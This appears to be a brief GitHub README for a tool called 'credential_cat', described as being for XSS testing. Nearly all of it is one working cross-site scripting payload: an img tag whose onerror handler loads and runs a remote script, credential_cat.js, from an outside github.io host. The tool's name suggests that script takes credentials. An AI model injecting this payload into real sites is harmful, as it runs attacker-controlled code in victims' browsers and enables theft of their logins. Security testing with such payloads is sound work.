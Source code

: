 # credential_cat

# Just for XSS testig

### example payload:
> &lt;img src="jiji://a/404.png" width="1px" height="1px" onerror=" var s = document.createElement('script');s.src = 'https://astals.github.io/credential_cat/credential_cat.js' ;$('head').append(s);"&gt;
